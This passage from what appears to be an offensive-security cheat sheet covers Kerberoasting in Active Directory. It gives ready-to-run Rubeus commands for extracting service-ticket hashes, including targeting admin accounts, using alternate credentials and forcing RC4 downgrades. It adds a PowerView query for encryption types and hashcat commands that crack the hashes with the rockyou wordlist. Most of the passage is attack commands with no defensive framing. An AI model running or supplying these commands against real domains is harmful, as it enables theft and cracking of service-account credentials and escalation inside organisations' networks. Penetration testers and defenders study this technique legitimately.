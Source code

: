 #### Using Rubeus

Rubeus is the most flexible and powerful Kerberoasting tool for Windows. Example usages:

- **Basic Kerberoasting:**
    ```shell
    Rubeus.exe kerberoast /nowrap
    ```
- **Output hashes to a file:**
    ```shell
    Rubeus.exe kerberoast /outfile:hashes.txt /nowrap
    ```
- **Kerberoast only admincount=1 accounts:**
    ```shell
    Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
    ```
- **Kerberoast with alternate credentials:**
    ```shell
    Rubeus.exe kerberoast /creduser:DOMAIN\USER /credpassword:PASSWORD /nowrap
    ```
- **Kerberoast with RC4 downgrade (if supported):**
    ```shell
    Rubeus.exe kerberoast /tgtdeleg /nowrap
    ```
- **Kerberoast stats:**
    ```shell
    Rubeus.exe kerberoast /stats
    ```

> **Note:** On Windows Server 2019 DCs, RC4 downgrade is not possible; tickets will be encrypted with the highest supported type (usually AES).

### Encryption Types & Cracking Considerations

- **RC4 (etype 23):**
  - Hashcat mode: `13100`
  - Fast to crack, most common in legacy environments
- **AES-256 (etype 18):**
  - Hashcat mode: `19700`
  - Much slower to crack, but possible
- **Downgrade attacks:**
  - Possible on older DCs (pre-2019) by requesting RC4 tickets even if AES is supported

#### Example: Checking Supported Encryption Types
```powershell
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
- `0` = RC4 default
- `24` = AES only

#### Example: Cracking with Hashcat
```shell
# RC4
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
# AES-256
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```
